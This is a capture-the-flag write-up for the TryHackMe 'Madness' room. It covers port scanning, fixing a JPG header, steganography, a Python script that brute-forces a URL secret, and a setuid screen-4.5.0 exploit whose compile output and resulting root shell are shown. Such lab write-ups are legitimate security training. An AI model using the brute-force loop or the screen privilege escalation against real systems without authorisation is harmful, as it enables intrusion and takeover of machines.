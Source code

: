 # Madness CTF TryHackMe
## This was easily the trickiest but most enjoyable room I have done yet

##1. Scanning & Enumeration
We do the below scans in parallel.

### 1.1. Port Scanning: 

```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nothing extraordinary.
```

### 1.2. Web Exploration
```html
<div class="main_page">
      <div class="page_header floating_element">
        <img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
```
In the homepage, which is a default ubuntu page, we see the thm.jpg image, that does not render out properly. We see it in the source code.

### 1.3. Steganography
Exploring the image using strings, binwalk and steghide does not return anything.

At this point, one thing CTF challenges often have is the change in the magic number of the file.

These magic numbers are used by the system to recognise which file it is. Using xxd --plain thm.jpg > wow.txt we see the first line: ```89504e470d0a1a0a000000010100000100010000ffdb0043000302020302```

I looked up the actual values for jpg files. We thus change the first line to: ```ffd8ffe000104a46494600010100000100010000ffdb0043000302020302```

We see the hidden directory mentioned in the image!

PS: It is also a good idea to download the image … just in case, you know?

### 1.4. Hidden Directory Exploration
The hidden directory screenshot, asking for a secret number

Info gathered:

We have to enter a secret
Source code mentions something about the type of input and the size of input.
The question is thus: How do we input?
1.5. Finding the Secret
Trying the below gives us an expected response. Note how the parameter is accepted.
```
┌──(kali㉿kali)-[/tmp]
└─$ curl 10.10.0.237/{hidden_directory_name}/?secret=1
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```
We also see the hint printed out here. Time for some scripting!

I wrote the below code, which you can use to brute-forcing the value of the secret parameter.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat script.py
import requests

url = "http://MACHINE_IP_HERE/{hidden_directory_name}/?secret="

for i in range(100):
    curr_url = url+str(i)
    response = requests.get(curr_url)
    if response.text.find("wrong") == -1:
        print(i)
        break
    print(f"Checking {i} rn")
    
```
And we get the secret number, which gets us a key!

But, to what?

### 1.6. Steganography
Remember the image we fixed earlier? Well, this is where the key is being used.
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile download.jpeg 
Enter passphrase: 
wrote extracted data to "hidden.txt".
```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat hidden.txt 
Fine you found the password! 

Here's a username 

wbxre

I didn't say I would make it easy for you!
Ey, Voila! Using rot13 gives us the username.
```
But … PASSWORD????????

## 2. Foothold (finally): Big Brain Time
At this point, we have no active paths we could explore. Bruteforcing SSH is not a good idea. What to do?

This is very sneaky. Saw the image on the room? Download it.
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile f***.jpg      
Enter passphrase: 
wrote extracted data to "password.txt".
```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat password.txt 
I didn't think you'd find me! Congratulations!

Here take my password

{hidden}
```
AH YES! Finally!

## 3. PrivEsc
We epxlore the common paths to priv esc.
```
joker@ubuntu:~$ sudo -l
[sudo] password for joker: 
Sorry, user joker may not run sudo on ubuntu.
```
^not useful.
```
joker@ubuntu:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

^finding set uid bit

Does something seem off to you? I googled it, and found the exploit.

Copy-pasting the script and executing -
```
joker@ubuntu:~$ vim wow.sh
joker@ubuntu:~$ bash wow.sh 
wow.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.
```
```
# whoami
root
```

### System Compromised :)
